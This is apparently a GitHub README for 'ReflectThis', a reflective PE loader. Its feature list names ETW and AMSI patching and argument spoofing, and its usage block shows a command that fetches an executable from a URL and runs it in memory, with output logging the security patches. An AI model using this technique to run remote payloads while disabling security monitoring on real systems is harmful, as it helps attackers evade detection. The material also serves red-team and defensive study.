 # ReflectThis
A Reflective PE loader supporting Native executables, .NET executables, argument spoofing, and more

## Details
- Supports Native and .NET PE files
- Load Native or .NET PE file hosted on web server
- IAT Hook to common commandline functions to fix arguments
- Set proper permissions on loaded sections
- ETW and AMSI patching
- TLS Callback support

## Usage
```ps
> .\ReflectThis.exe [url] [args...]
[-] Patched EWT in host at 77b713c0
[-] Patched AMSI in host at 65935960
[-] copying PE section NT Header (01268CE8) -> 00400000
[-] copying PE section .text (012690E8) -> 00401000
[-] copying PE section .rdata (0126C2E8) -> 00405000
[-] copying PE section .data (0126DAE8) -> 00407000
[-] copying PE section .msvcjmc↨ (0126DCE8) -> 00408000
[-] copying PE section .rsrc (0126DEE8) -> 00409000
[-] copying PE section .reloc (0126E0E8) -> 0040A000
[-] resolving function GetCommandLineA -> 213f2
[-] resolving function GetModuleHandleA -> 77a31130
[-] resolving function GetProcAddress -> 77a2fb80
[-] resolving function LoadLibraryA -> 77a312a0
[-] resolving function GetCurrentProcess -> 77a33550
[-] resolving function FreeLibrary -> 77a311b0
[-] resolving function VirtualQuery -> 77a2fba0
[-] resolving function GetProcessHeap -> 77a2f9b0
[-] resolving function HeapFree -> 77a2e590
[-] resolving function HeapAlloc -> 77b55e70
[-] resolving function GetLastError -> 77a2e640
...SNIP...
```
